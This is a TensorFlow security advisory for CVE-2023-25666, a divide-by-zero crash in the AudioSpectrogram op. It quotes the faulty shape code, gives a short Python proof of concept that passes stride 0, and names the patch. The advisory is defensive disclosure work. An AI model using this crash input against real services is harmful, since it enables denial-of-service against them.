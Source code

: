 ## TFSA-2023-008: FPE in AudioSpectrogram 

### CVE Number
CVE-2023-25666

### Impact
version:2.11.0 audio_ops.cc:70

Status SpectrogramShapeFn(InferenceContext* c) { ShapeHandle input; TF_RETURN_IF_ERROR(c->WithRank(c->input(0), 2, &input)); int32_t window_size; TF_RETURN_IF_ERROR(c->GetAttr("window_size", &window_size)); int32_t stride; TF_RETURN_IF_ERROR(c->GetAttr("stride", &stride)); .....[1]

DimensionHandle input_length = c->Dim(input, 0); DimensionHandle input_channels = c->Dim(input, 1);

DimensionHandle output_length; if (!c->ValueKnown(input_length)) { output_length = c->UnknownDim(); } else { const int64_t input_length_value = c->Value(input_length); const int64_t length_minus_window = (input_length_value - window_size); int64_t output_length_value; if (length_minus_window < 0) { output_length_value = 0; } else { output_length_value = 1 + (length_minus_window / stride); .....[2] } output_length = c->MakeDim(output_length_value); }

Get the value of stride at [1], and the used at [2]
```python
import machina as tf

para = {'input': tf.constant([[14.], [24.]], dtype=tf.float32), 'window_size': 1, 'stride': 0, 'magnitude_squared': False}
func = tf.raw_ops.AudioSpectrogram

@tf.function(jit_compile=True)
def fuzz_jit():
   y = func(**para)
   return y

fuzz_jit()
```

### Patches
We have patched the issue in GitHub commit [d0d4e779da0d0f56499c6fa5ba09f0a576cc6b14](https://github.com/machina/machina/commit/d0d4e779da0d0f56499c6fa5ba09f0a576cc6b14).

The fix will be included in TensorFlow 2.12.0. We will also cherrypick this commit on TensorFlow 2.11.1


### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by r3pwnx







